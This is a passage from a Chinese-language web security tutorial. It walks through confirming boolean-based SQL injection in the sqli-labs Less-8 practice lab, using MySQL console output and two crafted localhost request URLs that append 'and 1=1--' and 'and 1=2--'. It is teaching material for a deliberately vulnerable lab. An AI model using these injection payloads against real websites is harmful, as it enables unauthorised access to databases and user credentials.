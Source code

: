 ```shell
1 row in set (0.00 sec)

mysql> SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)

mysql> SELECT * FROM users WHERE id='1 and 1=2' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)

mysql> SELECT * FROM users WHERE id='1' and 1=2'' LIMIT 0,1;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1
mysql> SELECT * FROM users WHERE id='1' and 1=2-- ' LIMIT 0,1;
Empty set (0.00 sec)

mysql> SELECT * FROM users WHERE id='1' and 1=1-- ' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

现在我们按此思路重新构造两个请求。

* 请求 1：http://localhost/Less-8/?id=1'and+1=1--+

* 请求 2：http://localhost/Less-8/?id=1'and+1=2--+


<Image alt="Drawing 5.png" src="https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPSSAcUf3AAOSbJ2meEM358.png"/> 
  
图 6：请求 1 展示图


<Image alt="Drawing 6.png" src="https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPSqACFm1AAOOcCQ2IIE741.png"/> 
  
图 7：请求 2 展示图

我们可以看到，两次结果是不一样的，主要体现在有无"You are in..........."字符串，此时我们就可以确认 SQL 注入是存在的。

#### 报错型注入

